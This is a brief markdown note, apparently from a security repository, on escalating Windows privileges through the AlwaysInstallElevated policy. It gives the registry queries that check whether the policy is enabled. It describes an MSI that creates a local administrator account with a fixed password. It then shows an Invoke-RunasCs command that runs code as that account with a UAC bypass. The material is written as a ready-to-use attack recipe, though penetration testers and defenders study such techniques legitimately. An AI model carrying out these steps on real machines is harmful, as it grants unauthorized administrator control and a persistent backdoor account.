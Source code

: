 # Leveraging AlwaysInstallElevated
Check if enabled:
- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` 
- `reg query HKLM\software\policies\microsoft\windows\installer /v alwaysinstallelevated` 

### MSI File Purpose

1. Creating the user `amit` with the password `Password123!` 
2. Adding the user to the local administrators group. 

Then we can use [Invoke-RunasCs.ps1](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1) to get code execution as the newly created administrator user:
- `Invoke-RunasCs amit 'Password123!' 'whoami /priv' -ForceProfile -CreateProcessFunction 2 -BypassUac`

